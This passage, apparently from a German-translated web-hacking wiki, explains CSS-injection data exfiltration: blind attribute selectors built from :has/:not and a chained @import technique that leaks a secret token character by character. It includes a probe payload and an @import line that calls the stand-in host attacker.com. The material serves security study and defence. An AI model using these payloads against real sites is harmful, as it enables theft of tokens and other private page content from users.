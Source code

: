 ### Blinder Attributselektor

Wie [**in diesem Beitrag erklärt**](https://portswigger.net/research/blind-css-exfiltration), ist es möglich, die Selektoren **`:has`** und **`:not`** zu kombinieren, um Inhalte sogar von blinden Elementen zu identifizieren. Dies ist sehr nützlich, wenn Sie keine Ahnung haben, was sich in der Webseite befindet, die die CSS-Injection lädt.\
Es ist auch möglich, diese Selektoren zu verwenden, um Informationen aus mehreren Blöcken desselben Typs zu extrahieren, wie in:
```html
<style>
html:has(input[name^="m"]):not(input[name="mytoken"]) {
background:url(/m);
}
</style>
<input name=mytoken value=1337>
<input name=myname value=gareth>
```
Kombiniert man dies mit der folgenden **@import**-Technik, ist es möglich, eine Menge **Info mit CSS-Injection von blinden Seiten zu exfiltrieren mit** [**blind-css-exfiltration**](https://github.com/hackvertor/blind-css-exfiltration)**.**

### @import

Die vorherige Technik hat einige Nachteile, siehe die Voraussetzungen. Du musst entweder in der Lage sein, **mehrere Links an das Opfer zu senden**, oder du musst in der Lage sein, die **CSS-Injection-anfällige Seite in ein Iframe zu laden**.

Es gibt jedoch eine weitere clevere Technik, die **CSS `@import`** verwendet, um die Qualität der Technik zu verbessern.

Dies wurde zuerst von [**Pepe Vila**](https://vwzq.net/slides/2019-s3\_css\_injection\_attacks.pdf) gezeigt und funktioniert so:

Anstatt die gleiche Seite immer wieder mit Dutzenden von verschiedenen Payloads zu laden (wie in der vorherigen), werden wir die **Seite nur einmal und nur mit einem Import zum Server des Angreifers laden** (das ist die Payload, die an das Opfer gesendet werden soll):
```css
@import url('//attacker.com:5001/start?');
```
1. Der Import wird **einige CSS-Skripte** von den Angreifern **empfangen und der Browser wird sie laden**.
2. Der erste Teil des CSS-Skripts, den der Angreifer senden wird, ist **ein weiteres `@import` zum Server des Angreifers.**
1. Der Server des Angreifers wird diese Anfrage noch nicht beantworten, da wir einige Zeichen leaken und dann diesen Import mit der Payload beantworten wollen, um die nächsten zu leaken.
3. Der zweite und größere Teil der Payload wird ein **Attributselektor-Leakage-Payload** sein.
1. Dies wird an den Server des Angreifers das **erste Zeichen des Geheimnisses und das letzte** senden.
4. Sobald der Server des Angreifers das **erste und letzte Zeichen des Geheimnisses** erhalten hat, wird er **den Import, der in Schritt 2 angefordert wurde, beantworten**.
1. Die Antwort wird genau die gleiche sein wie in den **Schritten 2, 3 und 4**, aber diesmal wird sie versuchen, **das zweite Zeichen des Geheimnisses und dann das vorletzte** zu finden.

Der Angreifer wird **diesen Loop fortsetzen, bis es ihm gelingt, das Geheimnis vollständig zu leaken**.

